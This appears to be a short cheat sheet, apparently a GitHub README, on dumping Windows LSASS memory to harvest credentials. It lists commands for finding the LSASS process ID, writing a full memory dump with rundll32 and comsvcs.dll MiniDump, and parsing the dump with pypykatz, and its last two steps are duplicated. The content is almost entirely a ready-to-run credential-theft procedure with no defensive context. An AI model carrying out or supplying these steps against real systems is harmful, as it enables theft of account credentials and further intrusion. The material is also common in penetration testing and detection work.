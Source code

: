 1) dump lsass from task manager if we have UI access for windows
<img width="1024" height="738" alt="image" src="https://github.com/user-attachments/assets/55a6ab30-c50f-4bf7-b8c9-2826714e4268" />

2) Finding LSASS's PID in cmd
```shell
tasklist /svc
```

3) Finding LSASS's PID in PowerShell
```shell
Get-Process lsass
```

4) Creating a dump file using PowerShell
```shell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

5) Using Pypykatz to extract credentials
```shell
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

6) Using Pypykatz to extract credentials
```shell
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```
